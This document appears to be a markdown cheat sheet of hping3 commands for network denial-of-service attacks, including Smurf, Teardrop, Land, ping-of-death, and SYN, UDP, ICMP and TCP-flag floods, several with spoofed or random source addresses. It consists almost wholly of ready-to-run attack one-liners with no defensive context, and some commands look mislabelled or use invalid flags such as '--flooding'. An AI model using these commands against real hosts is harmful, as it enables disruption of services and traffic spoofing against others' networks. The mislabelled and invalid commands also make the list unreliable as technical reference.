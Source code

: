 # hping3
## ICMP Smurf Attack
```
hping3 -1 -a ip brodcast-ip --flood
```

## Bonk Attack
```
hping3 ip -Q
```

## Teardrop Attack
```
hping3 -1 ip -g 185
```

## Land Attack
```
hping3 -1 -a ip ip --flood
```

## Ping of death Attack
```
hping3 -1 --rand-source ip -d 50 --flood 
```

## ICMP Flooding Attack
```
hping3 -1 ip --flooding
```

## SYN Flooding Attack
```
hping3 -S -a 1.1.1.1 ip --flood
```

## UDP Flooding Attack
```
hping3 -2 ip -p port --flood
```

## Out of band Flooding Attack
```
hping3 -A ip -p port --flood
hping3 -P ip -p port --flood
hping3 -R ip -p port --flood
hping3 -U ip -p port --flood
hping3 -F ip -p port --flood
hping3 -SAPRUF ip -p port --flood
```
